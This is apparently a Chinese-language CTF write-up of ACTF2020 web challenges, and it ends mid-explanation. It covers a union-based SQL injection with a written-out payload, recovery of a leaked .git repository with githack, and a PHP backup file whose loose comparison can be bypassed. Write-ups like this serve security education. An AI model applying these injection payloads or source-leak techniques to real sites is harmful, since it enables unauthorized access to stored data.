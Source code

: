简单的sql注入

![sqlpage](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/web/babysql/sql_page.png)

根据输入的id查询用户名和密码

`id=-1' order by 1,2,3,4 #`时回显消失，所以一共是就3列数据

然后删除线那里给了表名，直接`union select`就能拿到`flag`，payload:

> `id=-1' union select 1,flag,3 from flag #`

![sql](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/web/babysql/sql.png)



## whats git

- 题目描述：-
- 考察点：githack
- 难度：入门
- 分值：200
- 完成人数：6

`Githack`，然后找`flag`


```shell
% find ./ | grep flag 
./新建文件夹 - 副本 (7)/新建文件夹 - 副本 (3)/新建文件夹 - 副本 (4)/新建文件夹 - 副本 (3)/flag

% cat "./新建文件夹 - 副本 (7)/新建文件夹 - 副本 (3)/新建文件夹 - 副本 (4)/新建文件夹 - 副本 (3)/flag"
ACTF{.git_leak_is_dangerous}%                                                       
```



## backup_file

- 题目描述：-
- 考察点：bak文件、php弱类型
- 难度：简单
- 分值：200
- 完成人数：8

提示`Try to find out source file!`，于是扫一下目录发现`index.php.bak`:

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```
`$key == $str`时给`flag`，`key`必须是数字，而`str`是字符串
